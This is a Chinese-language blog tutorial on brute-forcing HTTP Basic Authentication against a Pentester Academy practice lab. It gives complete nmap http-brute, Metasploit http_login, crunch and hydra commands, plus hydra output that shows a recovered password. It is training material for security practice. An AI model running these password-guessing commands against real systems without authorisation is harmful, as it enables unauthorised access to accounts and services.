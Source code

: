 ```yaml
---
layout:     post
title:      暴力破解HTTP身份验证
subtitle:   
date:       2020-01-28
author:     D
header-img: 
catalog: true
mermaid: true
tags:
    - HTTP Basic Authentication
---
```


参考:[Bypass HTTP Basic Authentication with Nmap and Metasploit](https://www.kamranmohsin.com/2017/02/bypass-http-basic-authentication-nmap-metasploit/)

# HTTP身份验证介绍

[HTTP身份验证](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Authentication)是在请求特定web资源时提供用户名和密码的一种方法。<br>
客户端以未加密的base64编码文本的形式发送用户名和密码。

当HTTP接收到对受保护资源的匿名请求时，它可以使用401(拒绝访问)状态码拒绝请求，从而强制使用基本身份验证。

```
HTTP/1.1 401 Access Denied
WWW-Authenticate: Basic realm="Server Results"
Content-Length: 0
```

`WWW-Authenticate` 中的单词 `Basic` 表示用户必须使用Basic身份验证方法来访问受保护的资源。<br>
可以将领域设置为描述特定资源中的安全区域的任何值。

```
GET /protectedfiles/ HTTP/1.1
Host: www.kamranmohsin.com
Authorization: Basic adsadWNoOmY=
```

当成功尝试时，HTTP状态变为 200 OK. `adsadWNoOmY=` 是`basic64`编码版本的用户名和密码。

# 用Nmap绕过HTTP身份验证

绕过可以通过 [Nmap](https://nmap.org/) 来完成. Nmap是一款安全扫描器,它一般用于发现计算机网络上的主机和服务. <br>
Nmap附带了130多个NSE脚本，可以帮助发现网络中几乎所有可能的信息.

想要动手练习,请点击[这里](https://pentesteracademylab.appspot.com/lab/webapp/basicauth). 在链接中提供了绕过身份验证的提示.<br>
对于用户名和密码，在Kali Linux中创建两个单独的文件。我先创建一个目录。<br>
```
mkdir demo
cd demo
vi users.txt
```
将可能的用户名nick, admin写入,users.txt里面保存.当然你也可用网上别人整理好的比如[SecLists](https://github.com/dm116/SecLists).<br>

让我们做一个密码文件，根据提示也就是5个字符，只使用a,s,d小写。密码例子asddd, aassd, ssdaa等。<br>

```
crunch 5 5 asd > pass.txt
```
Crunch命令有助于为蛮力强制进行组合。紧随其后的是5个包含asd的最小或最大字符,结果的组合被保存到pass.txt文件中.

现在使用nmap http-brute命令绕过http基本身份验证,下面是命令:
```
nmap -p 80 --script http-brute --script-args 'http-brute.hostname=pentesteracademy
lab.appspot.com, http-brute.method=POST, http-brute.path=/path/webapp/basicauth, 
userdb=/root/demo/users.txt, passdb=/root/demo/pass.txt' -n -v pentesteracademy
lab.appspot.com
```
我们正在检查端口 `80`，主机名(`http-brute.hostname`)应该是你绕过认证的站点。<br>
`方法`和`路径`应该通过查看登录页面的源页面进行确定。<br>
应该给出`users.txt`和`pass.txt`的完整路径。`-n`表示没有dns, `-v` 表示详细模式,最后要写出网站的名称。<br>

# 用Nmap绕过HTTP身份验证

[Metasploit](https://www.metasploit.com/)有助于发现安全问题，验证漏洞缓解&管理安全评估.<br>

命令如下:<br>
```
msfconsole
```
进入 `msf >` 后<br>
```
search http_login
use auxiliary/scanner/http/http_login
```
进入 `msf5 auxiliary(scanner/http/http_login) >` 后<br>
```
show options
set AUTH_URI /lab/webapp/basicauth
set BLANK_PASSWORDS false
set PASS_FILE /root/demo/pass.txt
set REQUESTTYPE POST
set RHOSTS  pentesteracademylay.appspot.com
set STOP_ON_SUCCESS true
set THREADS 20
set USERNAME admin
set VHOST pentesteracademylay.appspot.com
set USER_FILE ''
set USER_AS_PASS false
set USERPASS_FILE ''
run
```
运行命令后，几分钟内您将获得密码aaddd。<br>
如果在不知道 USERNAME 的情况下需要设置 `USER_FILE`, 上面 `set USER_FILE ''`是设置为空的意思.<br>

# hydra暴力破解HTTP身份验证
```
hydra -L users.txt -P pass.txt http-post://pentesteracademylab.appspot.com/lab/webapp/basicauth
```
```
[root@ideal-cluster-2 ~]# hydra -L users.txt -P pass.txt http-post://pentesteracademylab.appspot.com/lab/webapp/basicauth
Hydra v9.1-dev (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-01-29 01:55:19
[DATA] max 12 tasks per 1 server, overall 12 tasks, 12 login tries (l:3/p:4), ~1 try per task
[DATA] attacking http-post://pentesteracademylab.appspot.com:80/lab/webapp/basicauth
[80][http-post] host: pentesteracademylab.appspot.com   login: admin   password: aaddd
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-01-29 01:55:19
```
hydra使用参考 [hydra使用介绍](https://dm116.github.io/2020/01/27/hydra/)
